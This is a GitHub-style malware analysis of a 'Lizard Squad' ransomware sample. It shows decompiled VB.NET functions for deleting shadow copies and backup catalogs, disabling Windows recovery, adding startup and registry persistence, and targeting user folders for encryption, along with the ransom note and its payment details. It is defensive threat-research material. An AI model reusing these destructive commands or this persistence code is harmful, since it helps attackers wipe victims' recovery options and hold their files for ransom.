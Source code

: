 # Analysis Lizard Squad Ransomware 


[Twitter](https://twitter.com/patri1ck)


Hello Guys ,Today We Will Analysis Ransomware Sample That I Found On Twitter Account [Tweet](https://twitter.com/petrovic082/status/1546833472353968129?s=21) 

Let's Dive Into It 

## Functions 
- [Delete Shadow Copies](#Delete-Shadow-Copies:)
- [Disable Recovery Mode](#Disable-Recovery-Mode:)
- [Delete Backup Catalog](#Delete-Backup-Catalog:)
- [Add Link To Startup](#Add-Link-To-Startup:)
- [Registry Startup](#Registry-Startup:)
- [look For Directories](#look-For-Directories:)
- [Set Wallpaper](#Set-Wallpaper:)
- [Add And Open Note](#Add-And-Open-Note:)

## Delete Shadow Copies:
    Will Execute This Command :
        "vssadmin delete shadows /all /quiet & wmic shadowcopy delete"
    For Delete Shadows copies
<details>
    <summary>Code (click to expand/collapse)</summary>

```vb
Private Shared Sub DeleteShadowCopies()
    Program.runCommand("vssadmin delete shadows /all /quiet & wmic shadowcopy delete")
End Sub
```

</details>

## Disable Recovery Mode:
    Will Execute This Command :
        "bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no"
	to Disable Recovery Mode This Command will Not Allow To The Victim To Use The Recovery Mode 
<details>
    <summary>Code (click to expand/collapse)</summary>

```vb
Private Shared Sub DisableRecoveryMode()
    Program.runCommand("bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no")
End Sub
```	

</details>

## Delete Backup Catalog:
	Will Execute This Command :
		"wbadmin delete catalog -quiet"
	To Delete BackUp Catalog 
<details>
    <summary>Code (click to expand/collapse)</summary>

```vb	
Private Shared Sub DisableRecoveryMode()
    Program.runCommand("wbadmin delete catalog -quiet")
End Sub
```

</details>

## Add Link To Startup:
    Make lnk File in startup 
	For persistence
<details>
    <summary>Code (click to expand/collapse)</summary>

```vb
Private Shared Sub AddLinkToStartup()
	Dim folderPath As String = Enviroment.GetFolderPath(Enviroment.SpecialFolder.Startup)
	Dim str As String = Process.GetCurrentProcess().ProcessName
	Using streamWriter As StreamWriter = New StreamWriter(folderPath + "\" + str + ".url")
		Dim location As String = Assembly.GetExecutingAssembly().location
		streamWriter.WriteLine("[InternetShortcut]")
		streamWriter.WriteLine("URL=file:///"+location)
		streamWriter.WriteLine("iconIndex=0")
		Dim str2 As String = location.Replace("\"c,"/"c)
		streamWriter.WriteLine("IconFile=" + str2)
		End Using
End Sub
```

</details>

## Registry Startup:
    Set Registry Name Value "Microsoft Store" And Will Set Registry Value Data to The RansomWare Path 
	The Key :
		"HKCU/SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
	To Do persistence
## look For Directories:
	This Function Will Look For Directories And Encrypted It
	The List Of The Directories as Saved As String With User Main Dir 
- Desktop
- Links
- Contacts
- Documents
- Downloads
- Pictures
- Music
- OneDrive
- Saved Games
- Favorites
- Searches
- Videos

<details>
    <summary>Code (click to expand/collapse)</summary>

```vb
Dim location As String = Program.userDir + Program.userName + "\Desktop"
Dim location2 As String = Program.userDir + Program.userName + "\Links"
Dim location3 As String = Program.userDir + Program.userName + "\Contacts"
Dim location4 As String = Program.userDir + Program.userName + "\Desktop"
Dim location5 As String = Program.userDir + Program.userName + "\Documents"
Dim location6 As String = Program.userDir + Program.userName + "\Downloads"
Dim location7 As String = Program.userDir + Program.userName + "\Pictures"
Dim location8 As String = Program.userDir + Program.userName + "\Music"
Dim location9 As String = Program.userDir + Program.userName + "\OneDrive"
Dim location10 As String = Program.userDir + Program.userName + "\Saved Games"
Dim location11 As String = Program.userDir + Program.userName + "\Favorites"
Dim location12 As String = Program.userDir + Program.userName + "\Searches"
Dim location13 As String = Program.userDir + Program.userName + "\Videos"
Program.encryptDirectory(location)
Program.encryptDirectory(location2)
Program.encryptDirectory(location3)
Program.encryptDirectory(location4)
Program.encryptDirectory(location5)
Program.encryptDirectory(location6)
Program.encryptDirectory(location7)
Program.encryptDirectory(location8)
Program.encryptDirectory(location9)
Program.encryptDirectory(location10)
Program.encryptDirectory(location11)
Program.encryptDirectory(location12)
Program.encryptDirectory(location13) 
```
##### !Dump! He Could Do It With For Loop !

</details>

## Set Wallpaper:
    This func Will Change The Wallpaper
	To This Image :
[![N|Solid](https://pbs.twimg.com/media/FXd016dXoAYn99q?format=jpg&name=small)
<details>
    <summary>Code (click to expand/collapse)</summary>

```vb
Public Shared Sub SetWallpaper(base64 As string)
  if base64 <> "" Then
    Try
      Dim text As String = Path.GetTempPath() + Program.RandomString(9) + ".jpg"
      File.WriteAllBytes(text,Convert.FromBase64String(base64))
      Program.SystemParametersInfo(20UI, 0UI,text,1UI)
    Catch
    End Try
  End If
End Sub
```

</details>
	
## Add And Open Note:
    This Function Will Write Message For Victim
	The Name Of a File "說明it.txt" 
	And The Message :
	"我來自一個名為：蜥蜴小隊的國際組織", "我們是黑客組織", "我的名字是：09先生", "我會用你的電腦作為收款的抵押品", "", "請支付：USDT-TRC20", "金額：2000", "付款地址：TRZRAM9KL5qv1BMrXxo876wetHfzT19sii", "聯繫方式 ：woo090909@mail2tor.com", "電報：@woo090909", "付款後聯繫我，我會為你解鎖", "如果您不付款，您的計算機和文件將被自動銷毀，", "如果你真的想解決，請隨時支付費用，聯繫我，我會考慮給你打折", 
	"I'm from an international organization called: Lizard Squad , we are a hacker group , My name is: Mr. 09 , I will use your computer as collateral for collection , Please pay: USDT-TRC20 , Amount: 2000 , Payment address: TRZRAM9KL5qv1BMrXxo876wetHfzT19sii , contact details : woo090909@mail2tor.com , telegraph: @woo090909 , Contact me after payment and I will unlock it for you , If you do not pay, your computer and files will be automatically destroyed , If you really want a fix, feel free to pay the fee, contact me and I'll consider giving you a discount" 
Hmmm , The Name Of The Group Looks Familiar To Me :
	https://en.wikipedia.org/wiki/Lizard_Squad

> it seems To me The Ransomware Has Been Built By Ransomware Builder Because I Found It In The source Code , there are Functions Not Used By The Ransomware Sample That I Have And I See Settings Strings Not Used

And Special Thx To
@github/s4o
@github/ihl7
@github/rayiilz
